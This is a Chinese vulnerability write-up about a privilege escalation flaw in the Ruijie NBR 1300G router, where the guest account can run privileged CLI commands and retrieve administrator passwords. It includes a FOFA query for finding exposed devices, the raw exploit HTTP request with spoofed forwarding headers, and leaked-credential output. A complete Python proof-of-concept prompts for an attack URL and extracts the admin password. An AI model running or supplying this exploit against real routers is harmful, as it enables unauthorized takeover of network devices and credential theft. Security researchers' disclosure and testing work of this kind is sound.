 # 锐捷NBR 1300G路由器 越权CLI命令执行漏洞

## 漏洞描述

锐捷NBR 1300G路由器 越权CLI命令执行漏洞，guest账户可以越权获取管理员账号密码

## 漏洞影响

> [!NOTE]
>
> 锐捷NBR路由器

## FOFA

> [!NOTE]
>
> title="锐捷网络 --NBR路由器--登录界面"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/ruijie-35.png)

查看流量发现 CLI命令流量

![](http://wikioss.peiqi.tech/vuln/ruijie-36.png)

请求包为

```
POST /WEB_VMS/LEVEL15/ HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 73
Authorization: Basic
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: auth=; user=
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

command=show version&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.
```

测试发现执行其他命令需要权限，查看手册发现存在低权限 guest账户（guest/guest）

登录后发送请求包，执行CLI命令 **(show webmaster user)** 查看用户配置账号密码

![](http://wikioss.peiqi.tech/vuln/ruijie-37.png)

成功获取所有用户的账号密码

```
webmaster level 0 username admin password guest
webmaster level 0 username guest password guest
```

## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 锐捷NBRNBR1300G 路由器 越权CLI命令执行漏洞                    \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/WEB_VMS/LEVEL15/"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded",
                "Authorization": "Basic Z3Vlc3Q6Z3Vlc3Q="
    }
    data = 'command=show webmaster user&strurl=exec%04&mode=%02PRIV_EXEC&signname=Red-Giant.'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在执行 show webmaster user \033[0m".format(target_url))
        if "webmaster" in response.text and " password" in response.text and response.status_code == 200:
            user_data = re.findall(r'webmaster level 0 username admin password (.*?)<OPTION>', response.text)[0]
            print("\033[36m[o] 成功获取, 管理员用户账号密码为: admin/{} \033[0m".format(user_data))
        else:
            print("\033[31m[x] 请求失败:{} \033[0m")
    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)

```

![](http://wikioss.peiqi.tech/vuln/ruijie-38.png)